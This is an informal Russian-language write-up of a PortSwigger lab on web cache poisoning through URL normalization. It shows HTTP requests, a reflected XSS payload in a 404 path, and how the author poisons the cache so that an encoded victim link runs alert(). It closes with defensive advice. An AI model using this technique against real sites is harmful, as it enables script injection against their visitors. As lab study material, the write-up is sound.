




### Нормализация URL-адресов

лаба https://portswigger.net/web-security/web-cache-poisoning/exploiting-implementation-flaws/lab-web-cache-poisoning-normalization

лаборатория содержит уязвимость XSS, которую невозможно использовать напрямую из-за кодировки URL-адреса браузера

задача: отравить кеш для выволнения alert(1) в браузере, при этом, жертве нужно скинуть ссылку с xss внутри , короче, все - как в классической xss , но +кеш учавствует типа..

и разобраться, че там за движ-париж с этой url  кодировкой

-------

вот главвная стр оригинал
```http
GET / HTTP/2
Host: 0a3b005c0346b92d873d48ad00bd00a4.web-security-academy.net
Cookie: session=yGFOCUnLuSC4HnqNqSq1WAM03acOq0tS
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://portswigger.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i


```


--------
вот так - GET /?zzz=777 HTTP/2 - ничего не отражается

------
вот так  блокируется запрос 403
```http
GET /?zzz=777 HTTP/2
....
...
...
zzz=777
```

---------

я попробовал разные штуки еще, все что ниже -просто воедино собрал
```http
GET /?q=search&utm_content=123?q=)(*&^%$#$%^&*()_)(*&^%$#@!#$%^&*()))(*&^%#%#%#<^>$&<~<#>%>$<@#**%%()*$&#(^%@Y><><%#&*)^@&%#(^$*%<>><#%^()(*&@*#^%&$<><><)(#*^&@$><><#*($&%^@#><><)#$*%(&^&#^@!$<>@#$^@#$!@*&($(*!@#%$^&(!#%><>O@!*#^&%*^!@$><>!)(#&%(&#@^%*&(!#><@#)*%&^(!#%^$><)(@#&$%^(&!#%$()&#!(><)(@#*&%^*@#^&($*)#!@><!_(#*%&(&@^#%><!(#)&$%(&^@#><!P(#&%(&#@^&*$%(!@#><!)*@&$*#!@%$&!^(>< HTTP/2
Host: 0abd002c040fac358097038f0049009a.web-security-academy.net
Accept-Language: ru-RU,ru;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Referer: https://portswigger.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
X-Forwarded-Host: xxxx11
X-Forwarded-Scheme: xxx2
X-Forwarded-Server: xxx3
X-Host: xxx4
X-Original-Url: xxx5
X-Rewrite-Url: xxx6
X-Http-Method-Override: xxx7
Forwarded: xxx8
Origin: xxx9
Accept-Encoding: xxx11
Cookie: xxx22
Pragma: akamai-x-get-cache-key33
X-Cache-Key: xxx44
X-True-Cache-Key: xxx55
Cache-Status: xxx66
Cf-Cache-Status: xxx77
X-Cache: xxx88
X-Cache-Hits: xxx99
Via: xxx111
Age: xxx222
Cache-Control: xxx333
Vary: xxx444

```
но реакции нет - поэтому меняю вектор атаки на комментарии
вдруг можно отправить коммент гет запросом... сомневаюсь, но все бывает...

------
я нашел что-то забавное
я вбиваю невалидный запрос, и ошибка рисуется внутри html тегов... прикольно
то есть Content-Type: ===  >>> text/html;




-------
например можно делать так:
запрос  `GET /<script>alert(77)</script> HTTP/2`

ответ 404 с 
```html
<p>Not Found: /<script>alert(77)</script></p>
```




и все вроде бы хорошо и чудесно, но не тут то было!!!
через бурп - все шикарно, но если 
перейти по ссылочке 
`https://0a3b005c0346b92d873d48ad00bd00a4.web-security-academy.net/%3Cscript%3Ealert(77)%3C/script%3E`
то она кодированна в url



то есть, я вставляю ссылку в таком виде
`https://0a3b005c0346b92d873d48ad00bd00a4.web-security-academy.net/<script>alert(77)</script>`
и вся эта красота рушиться тем, что кодируется в url!!!

и в итоге я получаю вот это 
```html
<p>Not Found: /%3Cscript%3Ealert(77)%3C/script%3E</p>
```

-----

но самое интересное здесь!

я делаю запрос `GET /<script>alert(77)</script> HTTP/2`

вот этот ответ 404 - тоже берется из кеша!
```http
HTTP/2 404 Not Found
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=10
Age: 3
X-Cache: hit
Content-Length: 53

<p>Not Found: /%3Cscript%3Ealert(77)%3C/script%3E</p>
```
хотя должен был получить ответ
такой 
```html
<p>Not Found: /<script>alert(77)</script></p>
```

то есть - когда я через репитер отправляю запрос - то ответ приходит нормальный без url  кодировки
но если через браузер - то ответ весь кодирован через url


и вот тут сюрприз, так как ответ 404 кешируется , что нелогично вообще впринципи
то я отправил через репитер свой запрос и в кеш попал ответ 
```html
<p>Not Found: /<script>alert(77)</script></p>
```

и когда я через браузер открыл ссылку
`https://0a3b005c0346b92d873d48ad00bd00a4.web-security-academy.net/%3Cscript%3Ealert(77)%3C/script%3E
`
то несмотрю на то, что она все кодированная, то ответ 404 пришел из кеша, и пришел в виде
```html
<p>Not Found: /<script>alert(77)</script></p>
```

и вуаля - алерт сработал!!!!



----

я снова также отрпвил кеш и отправил ссылку жертве (у жертвы есть ровно 35 сек, чтобы откликнуться, и тогда - алерт сработает)
можно скриптом, конечно же сделать так, чтобы кеш отравлялся снова и снова каждый 35 сек... поджидая жертву,,,

----
#### как защититься

1 - кэшировать только ответы с кодом 200, а все ошибки 404 и подобные исключать из кэширования или задавать им минимальное время жизни, так как они часто содержат отраженные данные

2 - если путь отражается в ответе, обязательно экранировать спецсимволы или использовать контекстную санитизацию, не полагаясь на то что браузер или кэш что-то закодируют

3 - унифицировать процесс нормализации url между кэширующим слоем и приложением, чтобы не возникало расхождений в том как обрабатываются закодированные и незакодированные символы

4 - настроить csp с ограничением на выполнение инлайн-скриптов, чтобы даже при отражении пейлоада он не мог выполниться

5 - для путей которые генерируются динамически, использовать белые списки допустимых символов и отклонять запросы с опасными последовательностями до того как они попадут в кэш